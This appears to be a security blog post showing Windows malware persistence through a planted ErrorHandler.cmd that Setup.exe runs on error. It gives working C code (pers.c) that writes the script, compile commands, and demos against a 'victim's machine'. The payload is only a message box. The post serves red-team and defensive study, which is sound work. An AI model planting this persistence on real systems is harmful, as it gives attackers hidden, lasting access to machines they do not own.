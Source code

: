 ```yaml
---
title:  "Malware development: persistence - part 22. Windows Setup. Simple C++ example."
date:   2023-07-16 03:00:00 +0300
header:
  teaser: "/assets/images/104/2023-07-17_00-13.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/104/2023-07-17_00-13.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows Setup script.     

### setup script

`C:\WINDOWS\system32\oobe\Setup.exe` is an executable file on the Windows operating system. The `oobe` directory stands for *"Out Of Box Experience,"* which is part of the process users go through when they are setting up Windows for the first time, such as creating a user account, setting preferences, choosing default settings, etc.     

![pers](/assets/images/104/2023-07-16_22-58.png){:class="img-responsive"}    

Turns out, if you place your payload in `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` will load it whenever an error occurs.     

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox "malware" application (`hack.c`):  

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create file `ErrorHandler.cmd` for persistence:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

As you can see, the logic is pretty simple.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/104/2023-07-16_23-47.png){:class="img-responsive"}    

Then, move our `ErrorHandler.cmd` to `C:\Windows\Setup\Scripts\`:     

![pers](/assets/images/104/2023-07-17_00-10.png){:class="img-responsive"}    

Ok, the next step, need to run `Setup.exe` with error. The simplest method is to execute `Setup.exe` without any arguments:     

```powershell
.\Setup.exe
```

![pers](/assets/images/104/2023-07-17_00-13_1.png){:class="img-responsive"}    

If we open `Process Hacker` and see properties of `hack.exe`:     

![pers](/assets/images/104/2023-07-17_01-52.png){:class="img-responsive"}    

we can notice that its parent process is `cmd.exe (7264)`,       

![pers](/assets/images/104/2023-07-17_01-53.png){:class="img-responsive"}    

In turn, its parent is the `Setup.exe (4876)` process:     

![pers](/assets/images/104/2023-07-17_01-53_1.png){:class="img-responsive"}    

As you can see, our persistence logic works perfectly! =^..^=         

### practical example 2. persistence script

For the sake of completeness of the experiment, I created a file `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Note that, this program needs to be run with administrator rights as it's trying to create a directory and a file under `C:\WINDOWS`, which requires administrative privileges.     

![pers](/assets/images/104/2023-07-17_02-12.png){:class="img-responsive"}    

### demo 2

Let's go to see everything in action. Compile our persistence script:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/104/2023-07-17_02-07.png){:class="img-responsive"}    

Then, just run it with administrative privileges on the victim's machine:     

```powershell
.\pers.exe
```

![pers](/assets/images/104/2023-07-17_02-13.png){:class="img-responsive"}    

In my case, before run it I deleted this folder:    

![pers](/assets/images/104/2023-07-17_02-10.png){:class="img-responsive"}    

Run, `Setup.exe` again:    

![pers](/assets/images/104/2023-07-17_02-15.png){:class="img-responsive"}    

![pers](/assets/images/104/2023-07-17_02-15_1.png){:class="img-responsive"}    

Perfect! =^..^=    

### conclusion

This is a common filename for an installer package. In this case, it's part of Windows's setup and initialization process. It's used during the installation of the operating system, as well as when adding or modifying features and components.     

As you can see, however, please note that although it is a legitimate part of the Windows operating system, malicious programs can sometimes name themselves `Setup.exe` to avoid detection.      

There are also other files to inside the `c:\WINDOWS\system32\oobe\` folder:      

![pers](/assets/images/104/2023-07-16_22-59.png){:class="img-responsive"}    

I have not checked them.     

This trick has been previously researched by [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](/assets/images/104/2023-07-17_02-26.png){:class="img-responsive"}    

, I just show the dirty PoC code in C: `pers.c`.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
